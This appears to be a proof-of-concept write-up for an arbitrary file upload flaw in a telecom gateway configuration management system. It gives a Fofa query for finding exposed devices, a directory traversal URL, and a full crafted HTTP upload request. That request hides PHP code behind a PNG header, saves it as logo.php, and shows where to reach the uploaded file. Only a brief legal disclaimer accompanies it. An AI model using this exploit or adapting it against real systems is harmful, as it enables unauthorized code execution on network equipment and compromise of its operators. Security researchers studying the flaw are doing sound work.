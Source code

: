 ### Telecom Gateway Configuration Management System Arbitrary File Upload

**Fofa Query:** `body="img/dl.gif" && title="系统登录"`

**Vulnerability Description:** The telecom gateway configuration system suffers from an arbitrary file upload vulnerability.

**Vulnerability POC (Proof of Concept):**

1. **Firstly, visit the following URL:**

   ```
   /newlive/manager/self_detail.php?dir=../../
   ```

2. **Then, click on the following images:**

   ![img](file:///C:\Users\28162\AppData\Local\Temp\QQ_1737139860500.png)

   Select any option:

   ![img](file:///C:\Users\28162\AppData\Local\Temp\QQ_1737139871358.png)

   ![img](file:///C:\Users\28162\AppData\Local\Temp\QQ_1737139885672.png)

3. **Choose a PNG file, click upload, and intercept the request. Modify it as follows:**

   ```
   POST /newlive/manager/upload_file.php HTTP/1.1
   Host: 
   User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:134.0) Gecko/20100101 Firefox/134.0
   Accept: */*
   Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
   Accept-Encoding: gzip, deflate, br
   Content-Type: multipart/form-data; boundary=---------------------------378396372240200292154061098840
   Content-Length: 727
   Origin: http://60.179.171.239:8090
   Connection: keep-alive
   Referer: http:///newlive/manager/upload_file.php?dir=1
   Cookie: PHPSESSID=056etpqra4hh46jgcl8u6jcch2
   Priority: u=0

   -----------------------------378396372240200292154061098840
   Content-Disposition: form-data; name="file"; filename="blob"
   Content-Type: application/octet-stream

   �PNG
   
   <?php phpinfo();?>
   -----------------------------378396372240200292154061098840
   Content-Disposition: form-data; name="blob_num"

   1
   -----------------------------378396372240200292154061098840
   Content-Disposition: form-data; name="total_blob_num"

   1
   -----------------------------378396372240200292154061098840
   Content-Disposition: form-data; name="file_name"

   logo.php
   -----------------------------378396372240200292154061098840
   Content-Disposition: form-data; name="dir"

   1
   -----------------------------378396372240200292154061098840--
   ```

   ![img](file:///C:\Users\28162\AppData\Local\Temp\QQ_1737139980103.png)

4. **Access the uploaded file:**

   ```
   http://xxxxxx/newlive/upload/media/'directory'/returned_file_name
   ```

---

Please ensure that you have the necessary permissions and legal rights to conduct penetration testing in your environment to avoid any unauthorized activities.